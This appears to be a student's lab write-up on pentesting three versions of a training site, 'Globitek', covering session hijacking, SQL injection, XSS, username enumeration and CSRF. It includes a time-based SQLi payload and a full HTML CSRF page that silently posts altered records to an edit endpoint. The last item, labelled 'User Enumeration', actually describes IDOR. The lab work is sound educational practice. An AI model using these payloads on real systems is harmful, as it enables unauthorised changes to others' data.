 # Week 9 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: Session Hijacking  
Description 1: The session ID is found from the chrome developer tools console. The attacker changes the session ID using the provided change_session_id.php. The attacker is now able to access the victims session.
<img src="blue1.gif" />  


Vulnerability #2: SQL Injection  
Description: The exploit exists in the salesperson.php page. The exploit is done via the url. Using the given ```' OR SLEEP(5)=0--'``` statement, the page proceeds to wait 5 seconds before returning.
<img src="blue2.gif" />  


## Green

Vulnerability #1: XSS  
Description: This exploit is done via the feedback section. The XSS executes when a privileged user accesses the feedback page in the /staff/feedback/ section.
<img src="green1.gif"/>


Vulnerability #2: User Enumeration  
Description: Using the given username "pperson" we can see that a valid username shows a bold error. An incorrect username shows a not-bolded error.
<img src="green2.gif"/>

## Red

Vulnerability #1: CSRF  
Description: The attacker submits a malicious webpage into the feedback section. The victim visits the url from the feedback. The malicious webpage can be customized to silently submit a form to the edit section of the victims page.
<img src="red1.gif"/>

``` 
<!DOCTYPE html>
		<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>

		<p></p>
		<img src="https://i.kym-cdn.com/entries/icons/original/000/021/807/4d7.png" />
		<form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=7" method="POST" class="hide-form" id="attackform"  name="form">
			<input type="text" name="first_name" value="EEEEEEE" /><br />
			<input type="text" name="last_name" value="Example !!!" /><br />
			<input type="text" name="phone" value="123-456-7890" /><br />
			<input type="text" name="email" value="abc@abcd.com" /><br />
			<button onclick="submit()">submit</button>
		</form>
		<script>
		function submit() {
			console.log("loaded");
			window.document.forms[0].submit(function(e) {


				console.log("submitted");
			});
		}
		</script>
</html>
```

Vulnerability #2: User Enumeration  
Description: By directly changing the 'id' parameter in the URL we can find salespersons not mentioned on the page. ID's 10 and 11 shouldn't be accessible by everyone. 
<img src="red2.gif"/>

